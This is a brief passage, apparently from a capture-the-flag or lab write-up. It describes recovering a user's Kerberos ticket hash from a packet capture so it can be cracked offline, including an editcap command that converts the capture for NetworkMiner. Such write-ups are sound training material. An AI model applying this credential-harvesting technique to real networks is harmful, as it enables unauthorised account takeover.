to get the password of [Lion.SK](http://Lion.SK) user we can get kerberos Ticket hash and then crack it, after gaining access as sara.b user we found the wireshark network capture file. 



with the description.txt let’s read the description.txt



i found - https://www.netresec.com/?page=Blog&month=2019-11&post=Extracting-Kerberos-Credentials-from-PCAP

but when i followed the steps and try to parse the WS-01_PktMon.pcap i got this error



to  solve this we need to convert pcapng to pcap file

```php
editcap -F libpcap -T ether WS-01_PktMon.pcap file.pcap
```

and then parse the file agin to Networkminer

